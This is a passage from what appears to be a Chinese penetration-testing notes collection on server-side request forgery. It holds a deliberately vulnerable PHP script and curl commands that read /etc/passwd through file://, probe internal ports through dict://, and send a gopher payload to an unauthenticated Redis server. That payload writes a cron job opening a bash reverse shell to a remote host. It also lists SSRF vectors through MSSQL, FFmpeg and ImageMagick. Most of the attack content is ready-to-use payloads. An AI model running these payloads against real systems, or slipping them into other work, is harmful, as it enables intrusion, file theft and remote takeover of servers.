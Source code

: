 	'select version();’ 
	);
  ##### MSSQL
	SELECT openrowset('SQLOLEDB', 'server=192.168.1.5;uid=sa;pwd=sa;database=master')
	SELECT * FROM OpenDatasource('SQLOLEDB', 'Data Source=ServerName;User ID=sa;Password=sa' ) .Northwind.dbo.Categories
  ##### 图片处理函数
	FFmpeg
	concat:http://wyssrf.wuyun.org/header.y4m|file:///etc/passwd
	ImageMagick
	fill 'url(http://wyssrf.wuyun.org)'
  #### 攻击
	测试代码,需安装phpcurl模块apt-get install php7.0-curl
	<?php
	echo 'r u ok?';
	function curl($url){  
	  $ch = curl_init();
	  curl_setopt($ch, CURLOPT_URL, $url);
	  curl_setopt($ch, CURLOPT_HEADER, 0);
	  curl_exec($ch);
	  curl_close($ch);
	}
	$url = $_GET['url'];
	curl($url);
	?>
	对内网、本地进行端口扫描，获取服务的banner 信息
	攻击运行在内网或本地的应用程序
	对内网 WEB 应用进行指纹识别，通过访问默认文件实现(如：readme文件)
	攻击内外网的 web 应用，主要是使用 GET 参数就可以实现的攻击(如：Struts2，sqli)
	读取内网资源(如：利用file协议读取本地文件等)
	跳板
	无视cdn
	利用Redis未授权访问，HTTP CRLF注入实现getshell
  ##### 文件读取
	>curl -v 'http://192.168.0.110/ssrf.php?url=file:///etc/passwd'
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/12.png)

	?url=php://filter/read=convert.base64-encode/resource=./1.php
  #### 端口探测
	>curl -v 'http://www.xx.com/ssrf.php?url=dict://127.0.0.1:22/'
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/13.png)

	>curl -v 'http://www.xx.com/ssrf.php?url=dict://127.0.0.1:6379/info'
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/14.png)
  ###### SSRF+Redis
	>curl -v 'http://192.168.0.112/ssrf.php?url=gopher://192.168.0.120:6379/_*1%250d%250a%248%250d%250aflushall%250d%250a%2a3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2464%250d%250a%250d%250a%250a%250a%2a%2f1%20%2a%20%2a%20%2a%20%2a%20bash%20-i%20%3E%26%20%2fdev%2ftcp%2f192.168.0.108%2f12345%200%3E%261%250a%250a%250a%250a%250a%250d%250a%250d%250a%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2fvar%2fspool%2fcron%2f%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2a1%250d%250a%244%250d%250asave%250d%250aquit%250d%250a'
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/15.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/16.png)
